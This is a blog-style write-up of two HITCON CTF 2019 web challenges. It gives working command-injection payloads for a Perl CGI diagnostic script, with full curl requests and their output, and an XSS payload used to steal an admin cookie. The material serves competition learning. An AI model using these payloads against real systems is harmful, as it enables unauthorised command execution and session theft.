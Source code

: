 ```yaml
---
layout : post
title : HITCON CTF 2019
---
```

HITCON CTF is a great hacking competition in CTF world.
I solved 2 web challanges of Orange. So here is writeup.
<h2>1. Virtual Public Network</h2>
I have read Orange's blog, I can understand that is a story of Orange when he hack VPN products.<br>
Note that <code>return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;</code> and <code># backdoor :)</code> comment, we can see that our shell will be located at <code>./tmp/</code>.<br>
But when using Orange's payload, I can not get the output as expect. So I get a problem and should be redirect output to shell with `>` and read it with _curl_
Remember that it requires a $tpl parameter to get filename of shell<br>
<code>my $tpl = CGI::param("tpl");<br>
...
    $tpl = "./tmp/" . $tpl . ".thtml";<br>
    require($tpl);</code><br>
So I can create a final payload like this: <code>-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball</code> and urlencode it<br>
`curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball`<br>
`$READ_FLAG$<br>
FLAG<br>
bin<br>
boot<br>
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old`<br>
Encode `$` to read flag `$READ_FLAG` because $ will be interpreted as bash variable in Perl language and I can get it like this `\x24`. Using `sh -c '[command]'` to read flag because it is a binary file.<br>
Finall payload: `-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`
`curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`<br>
Flag: `hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}`<br>
Reference: 
<br><h2>Bounty Pl33z</h2>
This is a XSS challenge. When I click submit bugs it will redirects to `https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361`<br>
So using <code>_${alert()}`-"-(`${`_</code> to trigger XSS, so setup a VPS and redirect challenge's network to get admin's cookie (=flag)

Thank you for a great CTF!
